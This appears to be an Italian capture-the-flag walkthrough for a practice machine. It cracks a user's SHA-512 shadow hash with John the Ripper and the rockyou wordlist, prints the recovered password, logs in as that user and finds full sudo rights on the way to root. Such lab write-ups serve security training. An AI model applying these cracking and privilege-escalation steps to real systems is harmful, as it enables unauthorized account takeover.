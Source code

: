 ```
vianka:$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0:18507:0:99999:7:::
```
Andiamo a decriptare la password con john
```
nano hashpw.txt
```
```
vianka:$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0:18507:0:99999:7:::
```

```
john -wordlist=/usr/share/wordlists/rockyou.txt hashpw.txt
```

```
john --show hashpw.txt
```
trovata password!
```
Press 'q' or Ctrl-C to abort, almost any other key for status
beautiful1       (vianka)
1g 0:00:00:02 DONE (2025-05-18 17:21) 0.3787g/s 484.8p/s 484.8c/s 484.8C/s kucing..poohbear1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
root@ip-10-10-187-250:~# john --show hashpw.txt
vianka:beautiful1:18507:0:99999:7:::

```
Qual è la password dell'account utente locale?
```
beautiful1
```

Aumenta i privilegi e ottieni root.txt

```
su vianka
```
e ci logghiamo
```
id
```
```
uid=1000(vianka) gid=1000(vianka) groups=1000(vianka),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)

```

```
su -l
```

```
Matching Defaults entries for vianka on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User vianka may run the following commands on ubuntu:
    (ALL : ALL) ALL

```
